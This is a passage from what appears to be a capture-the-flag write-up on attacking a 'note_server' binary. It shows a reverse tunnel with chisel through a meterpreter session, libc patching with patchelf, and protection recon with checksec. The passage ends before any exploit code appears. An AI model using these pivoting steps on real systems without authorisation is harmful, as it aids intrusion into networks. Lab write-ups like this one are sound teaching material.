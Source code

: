 **Network Tunnelling**

Since the binary we have to exploit listens on a server \(port 5001\), it'll be best for us to port forward so that we can access the service from our local machine. To do this I'm going to use `chisel`, because metasploit port forwarding wasn't working for me. Using our meterpreter we can upload `chisel`, and then run it.

On your local machine, run:

```text
./chisel server -p 8080 --reverse
```

\(It can be any port you choose\)

Then on the remote machine, run:

```text
./chisel client [your ip]:8080 R:[lport]:127.0.0.1:5001
```

And now you should be able to connect to the service on `localhost:[lport]`

**Setting up the environment**

This part isn't necessary, but I would recommend doing this as it makes transferring to remote much easier, as remote and local would basically be the same.

Using `patchelf`, we'll first change the interpreter of the binary to the one we downloaded just then:

```text
patchelf ./note_server --set-interpreter ./ld-2.27.so
```

Then we change the libc used by the binary:

```text
patchelf ./note_server --add-needed ./libc-2.27.so
```

Now that we have the environment set up, we can now attack the binary

#### Basic Recon

**Protections**

```text
$ pwn checksec ./note_server
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

$ ./cat.py /proc/sys/kernel/randomize_va_space
2
```

Running a checksec tells us that we are dealing with full protections \(except from fortify\), and reading `/proc/sys/kernel/randomize_va_space` tells us we have full ASLR. Here's an overview of what we're dealing with
